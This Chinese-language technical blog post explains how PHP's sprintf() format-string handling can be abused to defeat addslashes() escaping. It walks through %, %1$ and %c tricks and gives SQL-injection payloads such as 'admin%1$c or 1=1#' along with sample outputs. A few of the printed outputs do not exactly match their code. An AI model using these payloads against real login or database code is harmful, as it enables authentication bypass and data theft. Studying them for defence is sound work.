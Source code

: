 ```yaml
---
layout: post
title: sprintf()格式化字符串注入
data: 2019-11-23
categories: Notes
tags: 
 - Injection
description:
excerpt_separator: ""
---
```


# sprintf()函数

和其它语言的格式化字符串函数类似，sprintf()的语法为：

```
sprintf ( string $format [, mixed $... ] ) : string
```

例如：

```php
<?php
    echo sprintf("select * from user where username='%s'\n", "admin");
?>
```

运行结果：

````
select * from user where username=admin
````

# 漏洞原理

在PHP的底层代码中，会对`$format`中`%`符号后的第一个字符做一个switch判断，以实现格式化输入功能。但这个判断仅15个case，换言之在`%`符号之后且超出了判断范围的字符都会被“吃掉”。

这样的话，如果我们上传的Payload被addslashes()处理过，就可以利用这个特性使被转义的字符逃逸。

# 利用方式

## 使用%

直接在危险字符前加入`%`即可。

不过需要主要的是如果当前字符串中`%`符号的数目大于sprintf()函数实际提供的参数，就会引起报错：

{% highlight php linenos %}
<?php
    echo sprintf("select * from user where username='admin%\' or 1=1#' and password='%s'\n" , "pass");
?>
{% endhighlight %}

运行结果：

```
PHP Warning:  sprintf(): Too few arguments in /home/glyuan/foo.php on line 2
```

## 使用%1$

在占位符中，`%n$s`可以选择特定位置的参数：

```php
<?php
    echo sprintf("select * from user where username='%2\$s' and password='%1\$s'\n", "pass", "admin");
?>
```

运行结果：

```
select * from user where username='admin' and password='pass'
```

所以用`%1$`代替`%`可以规避之前的报错：

{% highlight php linenos %}
<?php
    echo sprintf("select * from user where username='admin%1\$\' or 1=1#' and password='%s'\n" , "pass");
?>
{% endhighlight %}

运行结果：

```
select * from user where username='admin' Or 1=1#' and password='pass'
```

## 使用%c

`%c`是单个字符的占位符，接受一个整数，并根据ASCII码转化为字符，可以利用这个特性传入单引号等危险字符，以绕过过滤：

```php
<?php
    $username = "admin%1\$c or 1=1#";
	$password = "39";
	$sql = "select * from user where username='$username' and password='%s'\n";
	echo sprintf($sql, $password);
?>
```

运行结果：

```
select * from user where username='admin' or 1=1#' and password='39'
```

